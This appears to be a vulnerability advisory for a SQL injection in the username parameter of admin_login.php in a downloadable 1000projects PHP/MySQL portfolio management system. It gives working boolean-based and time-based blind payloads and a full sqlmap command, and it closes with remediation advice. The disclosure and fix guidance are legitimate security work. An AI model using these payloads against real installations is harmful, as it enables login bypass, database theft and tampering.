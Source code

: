 # 1000projects Portfolio Management System MCA Project using PHP and MySQL V1.0 /admin/admin_login.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Portfolio Management System MCA Project using PHP and MySQL`

## Vendor Homepage

- https://1000projects.org/portfolio-management-system-mca-project-using-php-and-mysql.html

## Software Link

- https://1000projects.org/wp-content/uploads/2022/11/Portfolio-MP.7z

## Vendor

- `1000projects`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/admin/admin_login.php' file of the 'Portfolio Management System MCA Project using PHP and MySQL' project.   The reason for this issue is that attackers inject malicious code from the parameter 'username' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Portfolio Management System MCA Project using PHP and MySQL", wangjiawei  discovered a critical SQL injection vulnerability in the "/admin/admin_login.php" file.   This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "username" Parameter

### payload
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-1628' OR 5975=5975-- fDUG&password=1&submit=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 4489 FROM (SELECT(SLEEP(5)))tfBj)-- Bxll&password=1&submit=Login
```

### The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
python sqlmap.py -u "http://192.168.75.230:8080/admin/admin_login.php" --data="username=1&password=1&submit=Login" --cookie="Cookie: PHPSESSID=2vlp63ah40dpfu1essnne5at9c" --batch --level=5 --risk=3 --random-agent --dbms=mysql --dbs
```
<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
